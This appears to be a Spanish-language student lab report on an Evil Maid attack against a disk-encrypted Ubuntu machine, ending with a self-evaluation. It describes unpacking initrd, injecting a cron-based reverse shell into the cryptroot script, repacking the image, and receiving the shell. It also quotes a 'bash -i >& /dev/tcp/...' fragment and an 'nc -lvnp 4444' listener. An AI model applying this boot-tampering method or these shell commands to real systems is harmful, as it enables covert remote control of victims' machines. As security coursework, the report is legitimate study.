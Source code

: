 1. **Reconocimiento del sistema víctima**:  
   Se inició Ubuntu 14.04 LTS para verificar que el disco estuviera cifrado. Se comprobó el acceso y se apagó la máquina. En este punto se confirma también que el usuario deberá desencriptar el disco al arrancar, y que este proceso está gestionado por el script `cryptroot` contenido dentro del `initrd`.

2. **Preparación del entorno de ataque**:  
   Se utilizó Linux Lite 7.4 en modo Live USB para ejecutar el script `EvilMaid.sh`, que automatiza la extracción, modificación y reempaque del `initrd.img`. El archivo `initrd` fue copiado a un directorio temporal (`~/out`) donde se ejecutó el comando `lsinitrd --unpack` para acceder a su estructura interna. Esta operación permitió navegar hacia el directorio `scripts/local-top/`, donde se encontró el script `cryptroot`, responsable de iniciar el desbloqueo del volumen encriptado durante el arranque.

3. **Inyección del payload**:  
   - El script Bash `70rdsMaid.sh` monta `/boot`, extrae `initrd.img`, y accede al archivo `cryptroot`.
   - Con `edit.py`, se inserta el contenido de `payload.txt`, que incluye una reverse shell persistente programada mediante `cron`.
   - El payload redirige la conexión a una IP controlada por el atacante en el puerto `4444`. Este se integra justo antes de finalizar el script `cryptroot`, garantizando su ejecución inmediatamente después de que el usuario legítimo desbloquee el disco. En las imágenes se aprecia cómo se edita el archivo en terminal, insertando una línea que ejecuta `bash -i >& /dev/tcp/...`.

4. **Reempaque y limpieza**:  
   - Se reconstruye `initrd.img` con el comando `find . | cpio -H newc -o | gzip -9`, asegurando que el formato sea compatible con el sistema de arranque.
   - El archivo resultante reemplaza el `initrd` original en la partición `/boot`. 
   - Se desmonta la unidad y se apaga la máquina. En este punto, todo rastro visible de la manipulación ha sido eliminado, y el sistema parece intacto desde el punto de vista del usuario.

5. **Recepción del shell remoto**:  
   - Con Kali Linux en modo Live, se ejecuta `nc -lvnp 4444` para escuchar la conexión. Se observa en las capturas cómo el atacante recibe una conexión entrante desde la IP de la víctima.
   - Al reiniciar Ubuntu, el cron job ejecuta automáticamente la reverse shell, entregando una sesión remota al atacante. Desde esa terminal remota, se puede realizar cualquier operación como si se estuviera localmente en la máquina objetivo. En la demostración, por ejemplo, se crea el archivo `imhere.txt` directamente sobre el escritorio de la víctima, como prueba del control total alcanzado.

6. **Confirmación del éxito**:  
   - Se comprobó que el acceso remoto se establece correctamente sin intervención del usuario legítimo, posterior al desbloqueo del disco. El proceso ocurre de forma silenciosa, sin mostrar ventanas emergentes o síntomas visibles en pantalla, lo cual valida el nivel de sigilo y eficacia del ataque.

El ataque fue ejecutado de manera automatizada, controlada y con fines exclusivamente educativos.

## Autoevaluación
### Estado final

El estado final de la asignación es **satisfactorio**. Se cumplieron todos los objetivos establecidos, logrando ejecutar exitosamente un ataque tipo *Evil Maid* sobre un sistema con cifrado de disco. La automatización del proceso, mediante scripting en Bash y Python, facilitó la ejecución controlada de cada etapa del ataque, desde la extracción y modificación del archivo `initrd.img` hasta la recepción de una sesión remota con privilegios de root. La reverse shell fue lanzada de forma persistente y silenciosa, sin alertar al usuario, demostrando la efectividad del payload inyectado [4].
